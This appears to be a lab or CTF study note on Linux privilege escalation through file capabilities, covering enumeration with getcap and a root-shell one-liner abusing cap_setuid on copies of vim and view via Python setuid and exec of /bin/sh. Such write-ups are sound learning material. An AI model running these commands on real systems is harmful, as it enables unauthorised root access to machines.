


# Privileges Escalation - Linux
# Capabilities exploitation

They allow system admins to give a binary permission to perform specific privileged operations **without requiring full root access**. For this reason, setting a SUID/SGID bit is more insecure than manage capabilities.
- `getcap -r / 2>/dev/null` to check which binaries have capabilities set.

## Safe binary case

The first result we get on our machine is the binary `/usr/bin/fping`. It has the `cap_net_raw=ep` capability, in which:

  - `e`: effective (it can use the capability).
  - `p`: permitted (it can have the capability). 

But if we print its privileges, we don't see any SUID/SGID bit set, so it prevents that kind of vulnerability exploitations. In this specific case, according to https://gtfobins.github.io, we don't have any capability vulnerability, so it's safe.

## Vulnerable binary case

In this case, giving a look to https://gtfobins.github.io, we get `/home/karen/vim` and `/home/ubuntu/view` as vulnerable binaries. It can be exploited following the GFTObins steps.
- **Vim exploitation**: `/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` and we are now root. Check it with `whoami`.
- **View exploitation**: `/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` and we are now root. Check it with `whoami`.
